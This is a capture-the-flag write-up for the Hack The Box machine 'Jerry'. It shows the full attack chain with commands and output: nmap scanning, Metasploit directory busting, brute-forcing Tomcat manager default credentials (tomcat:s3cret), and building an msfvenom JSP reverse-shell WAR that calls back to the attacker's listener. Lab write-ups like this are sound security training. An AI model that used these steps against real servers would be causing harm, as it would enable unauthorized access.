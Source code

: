 ```yaml
---
title: HTB - Jerry
date: 2023-12-01
categories: [CTF, HTB]
tags: [nmap, http, apache-tomcat, dir-busting, credential-enumeration, default-credentials, metasploit, msfvenom, webshell]
img_path: /assets/jerry/
published: true
---
```


![room_banner](machine_banner.png)

## Overview

|:-:|:-:|
|Machine|[Jerry](https://app.hackthebox.com/machines/144)|
|Rank|Easy|
|Time|1h48min|
|Focus|Default credentials, webshells|

## 1. Information Gathering

```shell
# sending ICMP requests to target
ping jerry
PING jerry (10.10.10.95) 56(84) bytes of data.
64 bytes from jerry (10.10.10.95): icmp_seq=1 ttl=127 time=28.1 ms
64 bytes from jerry (10.10.10.95): icmp_seq=2 ttl=127 time=24.1 ms
64 bytes from jerry (10.10.10.95): icmp_seq=3 ttl=127 time=25.6 ms
64 bytes from jerry (10.10.10.95): icmp_seq=4 ttl=127 time=23.9 ms
```

Host is alive and based on `ttl=127` it is a Windows machine.

```shell
# port scanning with nmap
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 jerry

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%)
```

```shell
# dir-busting with msf
msfconsole -q
msf6 > use auxiliary/scanner/http/dir_scanner
msf6 auxiliary(scanner/http/dir_scanner) > run

[*] Detecting error code
[*] Using code '404' as not found for 10.10.10.95
[+] Found http://10.10.10.95:8080/[SecCheck]/ 400 (10.10.10.95)
[+] Found http://10.10.10.95:8080/docs/ 200 (10.10.10.95)
[+] Found http://10.10.10.95:8080/examples/ 200 (10.10.10.95)
[+] Found http://10.10.10.95:8080/manager/ 302 (10.10.10.95)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> Hacktricks: [Default Credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#username-enum)

```shell
# enumerating login credentials with msf
msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
...
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
```

Credentials can be also found this way:

<figure>
    <img src="default_creds.png"
    alt="Default credentials" >
</figure>

We are now logged in and can see a lot of extra information:

<figure>
    <img src="logged_in_default_creds.png"
    alt="Successfully logged in with default credentials" >
</figure>

<figure>
    <img src="server_details.png"
    alt="Tomcat version information" >
</figure>

> Hacktricks: [MSFVenom Reverse Shell](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell)
> _The `java/shell_reverse_tcp` payload did not work, but `jsp_shell_reverse_tcp` did._

```shell
# crafting the payload with msfvenom
sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=4444 -f war -o revshell.war
Payload size: 1096 bytes
Final size of war file: 1096 bytes
```

```shell
# receiving the reverse shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

> Both `user.txt` and `root.txt` are available without lateral pivoting or privesc.

<figure>
    <img src="jerry_pwned.png"
    alt="Machine pwned" >
</figure>